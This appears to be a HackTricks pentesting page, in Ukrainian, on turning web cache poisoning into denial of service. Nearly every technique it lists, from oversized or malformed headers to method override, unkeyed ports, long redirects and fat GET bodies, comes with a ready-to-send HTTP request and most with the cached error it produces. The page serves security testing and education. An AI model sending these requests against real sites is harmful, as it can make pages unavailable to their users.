 # Cache Poisoning to DoS

{{#include ../../banners/hacktricks-training.md}}

> [!CAUTION]
> На цій сторінці ви можете знайти різні варіації, щоб змусити **веб-сервер відповідати з помилками** на запити, які є **допустимими для кеш-серверів**

- **HTTP Header Oversize (HHO)**

Відправте запит з розміром заголовка, більшим за той, що підтримується веб-сервером, але меншим за той, що підтримується кеш-сервером. Веб-сервер відповість з кодом 400, який може бути кешований:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
- **HTTP Meta Character (HMC) & Unexpected values**

Відправте заголовок, що містить деякі **шкідливі мета-символи**, такі як і . Щоб атака спрацювала, спочатку потрібно обійти кеш.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Погано налаштований заголовок може бути просто `\:` як заголовок.

Це також може спрацювати, якщо надсилаються несподівані значення, такі як несподіваний Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
- **Unkeyed header**

Деякі веб-сайти повернуть код статусу помилки, якщо вони **побачать деякі специфічні заголовки** в запиті, як-от заголовок _X-Amz-Website-Location-Redirect: someThing_:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
- **HTTP Method Override Attack (HMO)**

Якщо сервер підтримує зміну HTTP-методу за допомогою заголовків, таких як `X-HTTP-Method-Override`, `X-HTTP-Method` або `X-Method-Override`, можливо запитати дійсну сторінку, змінюючи метод, так що сервер не підтримує його, і тому погана відповідь кешується:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
- **Unkeyed Port**

Якщо порт у заголовку Host відображається у відповіді і не включений у ключ кешу, можливо перенаправити його на невикористовуваний порт:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
- **Long Redirect DoS**

Як у наступному прикладі, x не кешується, тому зловмисник може зловживати поведінкою відповіді перенаправлення, щоб зробити так, щоб перенаправлення відправляло URL, який настільки великий, що повертає помилку. Тоді люди, які намагаються отримати доступ до URL без некешованого ключа x, отримають відповідь з помилкою:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
- **Нормалізація регістру заголовка хоста**

Заголовок хоста повинен бути нечутливим до регістру, але деякі веб-сайти очікують, що він буде в нижньому регістрі, повертаючи помилку, якщо це не так:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
- **Нормалізація шляху**

Деякі сторінки повернуть коди помилок, відправляючи дані URLencode у шляху, однак сервер кешу URLdecode шляху та зберігає відповідь для URLdecoded шляху:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
- **Fat Get**

Деякі кеш-сервери, такі як Cloudflare, або веб-сервери, зупиняють GET-запити з тілом, тому це може бути використано для кешування недійсної відповіді:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Посилання

- [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
- [https://youst.in/posts/cache-poisoning-at-scale/?source=post_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post_page-----3a829f221f52--------------------------------)

{{#include ../../banners/hacktricks-training.md}}
